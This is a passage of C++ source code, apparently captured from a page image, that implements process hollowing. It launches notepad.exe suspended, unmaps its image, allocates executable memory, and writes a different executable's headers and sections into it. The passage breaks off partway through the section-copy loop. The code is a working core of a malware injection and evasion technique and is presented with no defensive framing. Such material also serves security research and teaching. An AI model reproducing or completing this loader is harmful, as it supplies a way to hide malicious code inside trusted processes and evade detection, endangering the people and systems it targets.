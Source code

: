 ```cpp
	PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
	DWORD returnLenght = 0;
	CreateProcessA(NULL, (LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
	HANDLE destProcess = pi->hProcess;

	// get destination imageBase offset address from the PEB
	NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
	DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8; 
	
	// get destination imageBaseAddress
	LPVOID destImageBase = 0;
	SIZE_T bytesRead = NULL;
	ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

	// read source file - this is the file that will be executed inside the hollowed process
	HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ,	NULL, NULL, OPEN_ALWAYS, NULL, NULL);
	DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
	LPDWORD fileBytesRead = 0;
	LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
	ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);
	
	// get source image size
	PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
	PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
	SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

	// carve out the destination image
	NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
	myNtUnmapViewOfSection(destProcess, destImageBase);

	// allocate new memory in destination image for the source image
	LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	destImageBase = newDestImageBase;

	// get delta between sourceImageBaseAddress and destinationImageBaseAddress
	DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

	// set sourceImageBase to destImageBase and copy the source Image headers to the destination image
	sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
	WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

	// get pointer to first source image section
	PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS32));
	PIMAGE_SECTION_HEADER sourceImageSectionOld = sourceImageSection;
	int err = GetLastError();

	// copy source image sections to destination
	for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
	{
		PVOID destinationSectionLocation = (PVOID)((DWORD)destImageBase + sourceImageSection->VirtualAddress);
		PVOID sourceSectionLocation = (PVOID)((DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData);
```